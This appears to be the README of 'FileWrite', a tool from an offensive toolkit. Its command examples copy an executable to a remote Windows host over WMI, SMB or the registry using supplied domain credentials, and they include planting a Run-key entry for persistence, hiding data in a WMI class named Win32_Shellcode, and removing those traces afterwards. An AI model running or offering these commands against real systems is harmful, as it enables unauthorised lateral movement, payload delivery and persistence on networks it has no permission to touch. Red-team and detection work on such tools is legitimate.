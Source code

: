 
### FileWrite - Write files or data to local or remote systems


#### Building
To compile open Visual Studio project and compile for release.

#### Options

  * WMI
  * SMB
  * Registry
  * WMI Class property
  * Remove WMI Class
  * Remove Registry key

```
FileWrite.exe writetype=wmi computername=target.domain eventname=Debug username=domain\user password=secret location=local droplocation="C:\windows\temp" filename=blah.exe
```

```
FileWrite.exe writetype=smb computername=target.domain eventname=Debug username=domain\user password=secret location=local droplocation="C:\windows\temp" filename=blah.exe
```

```
FileWrite.exe writetype=registry computername=target.domain eventname=Debug username=domain\user password=secret location=local droplocation="C:\windows\temp" filename=blah.exe keypath=HKCU:Software\Microsoft\Windows\Run valuename=Debug
```

```
FileWrite.exe writetype=wmiclass computername=target.domain username=domain\user password=secret location=local droplocation="C:\windows\temp" filename=blah.exe wminamespace=root\cimv2 classname=Win32_Shellcode
```

```
FileWrite.exe writetype=removewmiclass computername=target.domain username=domain\user password=secret wminamespace=root\cimv2 classname=Win32_Shellcode
```

```
FileWrite.exe writetype=removeregkey computername=target.domain username=domain\user password=secret keypath=HKCU:Software\Microsoft\Windows\Run valuename=Debug
```

Part of [MoveKit](https://github.com/0xthirteen/MoveKit)